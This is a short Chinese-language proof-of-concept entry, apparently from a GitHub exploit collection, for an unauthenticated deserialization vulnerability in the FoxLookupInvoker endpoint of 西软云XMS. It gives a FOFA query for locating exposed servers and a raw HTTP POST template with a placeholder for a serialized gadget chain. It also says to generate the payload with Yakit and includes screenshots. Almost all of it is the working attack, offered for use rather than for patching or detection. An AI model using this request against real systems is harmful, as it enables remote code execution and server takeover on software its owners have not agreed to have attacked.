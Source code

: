 ## 西软云XMS反序列化漏洞

西软云XMS /fox-invoker/FoxLookupInvoker接口处存在反序列化漏洞，未经身份认证的攻击者可利用此漏洞执行任意代码，获取服务器权限。

## fofa
```
app="shiji-西软云XMS"
```

## poc
```
POST /fox-invoker/FoxLookupInvoker/?return-exception=true HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Connection: close
 
{{hexdec(cb18x的序列化链)}
```
使用yakit 生成payload
![c5fe271fed6a284b93b64e1023b2b581](https://github.com/wy876/POC/assets/139549762/2b6a22d6-7125-4f43-ae6a-253a92d83d23)

![e79d4907bddf12878c085d3146d856bc](https://github.com/wy876/POC/assets/139549762/799da585-0c34-431e-baa8-f939b19610a3)
